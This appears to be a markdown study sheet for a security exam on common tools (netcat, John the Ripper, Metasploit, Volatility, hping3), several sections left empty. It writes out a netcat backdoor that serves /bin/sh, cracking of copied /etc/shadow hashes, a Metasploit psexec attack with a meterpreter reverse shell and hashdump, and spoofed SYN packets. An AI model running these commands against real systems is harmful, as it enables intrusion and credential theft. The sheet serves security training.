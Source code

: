 # Common Tools

## Exam Outcome

Demonstrate competence with common tools including netcat, SSH, Ettercap, p0f, etc...

### netcat

Setting up a Listener:

```
nc -l -p [port]
nc -l -p [2222]
```

Connecting to the Listener:

```
nc [ip_of_listener] [port]
nc 10.10.75.75 2222
```

Create Backdoor on Linux:

```
nc -l [port] -e /bin/sh
nc -l 7777 -e /bin/sh
```

Connect to the backdoor:

```
nc.exe [ip_of_listener] [port]
nc.exe 10.10.75.75 7777
```

### SSH

### Ettercap

### p0f

### John the Ripper

John the Ripper is essentially a password cracking tool.  You can utilize John the Ripper to perform password cracking once you've retrieved password hashes from a target.

First, you need to combine the passwd and shadow files (from a Linux machine).  The following examples assumes you've taken a copy of /etc/passwd and /etc/shadow and moved them to the /tmp directory:

```
./unshadow /tmp/passwd_copy /tmp/shadow_copy > /tmp/combined
```

Running John is trival:

```
./john /tmp/combined
```

### Cain & Abel

Cain & Abel is an auditing tool that can be used for testing the strength of passwords on Windows machines.

### Metasploit

Starting Metasploit:

```
msfconsole
```

Listing Exploits:

```
show exploits
```

Searching Exploits:

```
search type:exploit psexec
```

Acquiring Info on an Exploit:

```
info exploit/windows/smb/psexec
```

Selecting an Exploit to Use:

```
use exploit/windows/smb/psexec
```

Configuring Exploit Settings:

```
set PAYLOAD windows/meterpreter/reverse_tcp
```

Showing Options:

```
show options
```

Configuring Variables:

```
set RHOST [Target IP]
set SMBUser [username]
set SMBPass [password]
set LHOST [source/attacker IP]
```

Launching Exploit:

```
exploit
```

Backgrounding a Session:

```
background
```

Listing Sessions:

```
sessions -l
```

```
sessions -i [session #]
```

Popular Meterpreter Commands:

```
?
sysinfo
getuid
pwd
getpid
ps
hashdump
run hashdump
```

### Volatility

Getting usage and help

```
python vol.py -h
```

Getting process list:

```
python vol.py pslist -f /path/to/memory/dump/mem.dd --profile=Win7SP0x86
```

### Hping3

Hping3 is a command-line packet analyzer that supports the TCP, UDP, ICMP, and RAW-IP protocols.

```
hping3 --help
```

Running hping3 with TCP SYN flags:

```
hping3 -S [IP address]
```

Running hping3 with TCP SYN flags and a spoofed source address:

```
hping3 [IP Address] -a [spoofed IP] -S
```

### Dumpsec

Dumpsec gathers information about a remote host without providing valid authentication; you gain info on registry, file system, and printers; users and groups; policies, rights, and services.


### etc...

